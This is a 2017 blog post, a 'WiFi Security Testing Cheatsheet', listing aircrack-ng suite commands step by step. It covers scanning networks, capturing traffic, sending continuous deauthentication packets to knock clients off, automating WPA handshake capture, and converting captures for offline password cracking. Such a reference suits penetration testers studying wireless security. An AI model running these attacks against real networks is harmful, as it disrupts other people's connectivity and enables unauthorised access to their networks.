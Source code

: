 +++
author = "Dan Salmon"
date = 2017-10-10T16:38:19Z
description = ""
draft = false
tags = ["security"]
slug = "wifi-security-testing-cheatsheet"
title = "WiFi Security Testing Cheatsheet"

+++

# Prepare Wireless Card
* **View Network Cards:** iwconfig
* **Kill Wireless Processes:** airmon-ng check kill

---------
# View Networks
airodump-ng wlan0

---------

# Capture traffic
airodump-ng --bssid 04:A1:51:9F:98:BB --wps --write ISSO-WPA2 --channel 6 wlan0
 
where:
* --bssid   - MAC of router
* --wps     - Output WPS information, may be able to try Reaver
* --write   - File name to write to. No extension
* --channel - Statically set a channel. Don't need to unless de-authing
* wlan0  	- Wireless interface	

----------------------------

# Deauth - Do while capturing
aireplay-ng --deauth 0 -a 04:A1:51:9F:11:11 -c E0:AC:CB:DA:1B:1B wlan0

where:
* 0        - Continuously send deauth packets
* -a       - BSSID of router (from airodump)
* -c       - STATION of client (From airodump. Not necessary, but preferred)
* wlan0	   - Interface
* --deauth - Which aireplay attack to launch

[0|64 ACKs] - How many acknowledgements from AP|client. More=better especially for AP count


------------
# Automating de-auth attack/handshake grab
besside-ng -W -c 6 -b 00:00:11:22:33:44 wlan0

where:
* -W - WPA networks only
* -c - channel lock
* -b - BSSID of AP
* wlan0 - interface
	
- Sort of experimental, will probably get errors
- Usually grabs handshake in under 1 minutes, saves to wpa.cap and wep.cap
- Need to see at least (Know 1 clients), otherwise nothing to deauth

-------

# Seperate out individual caps from besside-ng output
pyrit -r wpa.cap -o mytargetnetwork.cap -e mytarget strip

where:
* -r - Input file to look at created by besside-ng
* -o - Output file to create
* -e - ESSID of network to filter by (alternatively, -b with BSSID of network)

---------

# Convert .cap with handshake to .hccap

aircrack-ng -J network network.cap

* Aircrack already adds .hccap extension to file